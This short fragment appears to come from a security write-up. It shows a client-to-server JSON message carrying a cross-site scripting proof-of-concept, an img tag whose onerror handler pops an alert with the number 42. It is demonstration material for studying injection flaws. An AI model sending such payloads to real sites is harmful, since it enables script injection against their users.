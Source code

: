 The following payload was sent from client to the server. If executed successfully an alert with the message 42 pops up!

***{"message":"<img src=x onerror='alert(42)'>"}***
